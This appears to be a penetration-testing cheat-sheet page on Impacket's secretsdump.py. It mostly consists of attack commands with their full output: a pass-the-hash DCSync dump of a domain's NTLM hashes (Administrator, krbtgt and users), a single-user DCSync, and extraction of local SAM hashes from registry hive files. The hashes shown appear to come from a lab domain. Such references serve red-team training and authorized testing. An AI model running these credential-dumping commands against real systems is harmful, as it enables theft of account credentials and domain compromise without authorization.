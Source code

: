 #### Dump with hash instead of plaintext password

```plain
$ secretsdump.py offsec.nl/sa.sql@10.10.10.10 -hashes ':55e2eb2ba1c8710ba2530929e3fe5e2f' -just-dc-ntlm
Impacket v0.9.22.dev1+20200924.183326.65cf657f - Copyright 2020 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:ca919b8610623b7283bc9d0fb4c03713:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:53dca7b06adf7704769edcf8b59985a5:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
offsec.nl\sa.das-forefront:1114:aad3b435b51404eeaad3b435b51404ee:167ee7a267199ffa715cf8fd86738c93:::
offsec.nl\user1:1118:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
offsec.nl\user2:1119:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
offsec.nl\user3:1120:aad3b435b51404eeaad3b435b51404ee:cf3a5525ee9414229e66279623ed5c58:::
```

#### Dump specific user only

```plain
$ secretsdump.py offsec.nl/johndo-adm@10.10.10.10 -just-dc-ntlm -just-dc-user john.do
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

Password:
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
offsec.nl\john.do:8124:aad3b435b51404eeaad3b435b51404ee:61ce05b7b3951672d5d42c4c16ccce6b:::
[*] Cleaning up... 
```

### Extract SAM accounts from SAM/SYSTEM hive

Instead of using [samdump2]({{< ref "samdump2" >}}).

Required files:

* SAM (`C:\Windows\System32\config\SAM`)
* SYSTEM (`C:\Windows\System32\config\SYSTEM`)

```plain
$ secretsdump.py -sam SAM -system SYSTEM LOCAL          
Impacket v0.9.24.dev1+20210814.5640.358fc7c6 - Copyright 2021 SecureAuth Corporation

[*] Target system bootKey: 0xabb459ddd821f4e0305b373605bce20e
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:8155d421e8780df8e232009a74bef7b7:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:6b0249e23821f46803d6ba5ace77490a:::
TESTING:1001:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
John Do:1002:aad3b435b51404eeaad3b435b51404ee:88056d8301a3b9165f6b9efc671caa41:::
Henk:1003:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[*] Cleaning up... 
```
